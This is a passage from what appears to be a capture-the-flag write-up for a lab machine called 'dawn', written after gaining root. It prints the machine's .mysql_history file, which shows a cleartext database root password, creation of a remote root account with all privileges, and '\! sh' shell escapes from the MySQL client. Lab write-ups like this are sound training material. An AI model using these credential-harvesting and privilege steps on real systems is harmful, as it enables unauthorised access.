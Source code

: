 ```shell-session
Hello! whitecr0wz here. I would like to congratulate and thank you for finishing the ctf, however, there is another way of getting a shell(very similar though). Also, 4 other methods are available for rooting this box!

flag{3a3<CENSORED>d59}
```

Reading about having a total of five paths to escalate my privileges when the box didn't seem to have much going on at first intrigued me a lot, so I used my new root account to explore and see if I could find any other attack vectors. First of all I checked the .mysql_history file and found the password of the root user in clear text:

```shell-session
dawn# cat ^[[200~.mysql_history^[[201~                                         
      cat .mysql_history
SHOW GRANTS;
show databases<
\
\:
;
show databases<  \:;
show databases; 
use mysql;
show tables;
sleect * from user;
select * from user;
show databases:
;
use mysql; 
SELECT user, plugin FROM user;
use mysql:
use mysql; 
select * from user;
user=root
;
user=root;
\! sh 
SELECT User, Host FROM mysql.user WHERE Host <> 'localhost'
;
SELECT User, Host FROM mysql.user WHERE Host <> 'localhost'; 
use mysql;
SELECT User, Host FROM mysql.user WHERE Host <> 'localhost'; 
CREATE USER 'root'@'%' IDENTIFIED BY 'onii-chan29'; 
GRANT ALL PRIVILEGES ON *.* TO 'root'@'%'; 
FLUSH PRIVILEGES; 
flush hosts:
flush hosts; 
flush-hosts;
flush hosts:
flush hosts; 
SHOW VARIABLES LIKE "max_connections";
SET GLOBAL max_connections = 5000000000000000000000000000;
SET GLOBAL max_connections = 50000000000000000000000000000000000000000000;
FLUSH HOSTS;
SHOW VARIABLES LIKE "max_connections";
flush hosts;
SHOW VARIABLES LIKE "max_connections";
\! sh 
\! bash
```
